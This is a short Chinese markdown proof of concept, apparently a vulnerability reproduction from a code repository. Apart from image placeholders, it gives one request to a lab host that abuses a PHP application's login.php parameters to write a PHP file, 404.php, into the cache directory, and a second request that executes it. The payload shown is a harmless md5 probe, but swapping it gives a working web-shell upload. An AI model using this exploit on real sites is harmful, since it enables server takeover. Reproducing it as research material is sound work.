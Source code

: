 
# 安装


![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)

# 实战

```
http://192.168.1.240:7777/login.php?makehtml=1&chdb[htmlname]=404.php&chdb[path]=cache&content=%3C?php%20echo%20md5(1);?%3E
```

![image]({path}/5.png)

这样就会生成一个404.PHP的文件，打开文件


```
http://192.168.1.240:7777//cache/404.php
```

![image]({path}/6.png)